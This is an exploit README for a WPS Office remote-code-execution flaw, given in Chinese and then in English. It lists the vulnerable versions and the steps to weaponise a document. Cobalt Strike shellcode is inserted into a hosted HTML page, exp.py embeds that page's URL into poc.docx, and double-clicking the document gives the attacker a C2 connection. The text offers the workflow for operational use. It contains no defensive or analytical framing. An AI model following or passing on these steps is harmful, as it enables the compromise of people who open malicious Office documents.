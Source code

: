 # WPS-0DAY-20230809
WPS Office 2023个人版＜11.1.0.15120; WPS Office 2019企业版＜11.8.2.12085 
## 使用方法
1. `python replace_shellcode.py shellcode_32_raw.bin`
   > 我这里使用的是CS中32位的payload, 使用`replace_shellcode.py`, 将`1.html`中的shellcode进行替换, 然后将`1.html`上传到你的托管地址, 例如: http://127.0.0.1/1.html
2. `python exp.py poc.docx http://127.0.0.1/1.html`
   > 替换`poc.docx`中的URL, 也就是你的托管地址
3. 双击文档即可上线CS



# WPS-0DAY-20230809
WPS Office 2023 Personal Edition ＜11.1.0.15120; WPS Office 2019 Enterprise Edition ＜11.8.2.12085 
## Usage
1. `python replace_shellcode.py shellcode_32_raw.bin`
   > Here, I am using a 32-bit payload from CS. Use `replace_shellcode.py` to replace the shellcode in `1.html`, then upload `1.html` to your hosting address, for example: http://127.0.0.1/1.html
2. `python exp.py poc.docx http://127.0.0.1/1.html`
   > Replace the URL in `poc.docx`, which is your hosting address
3. Double-click the document to connect to CS

   
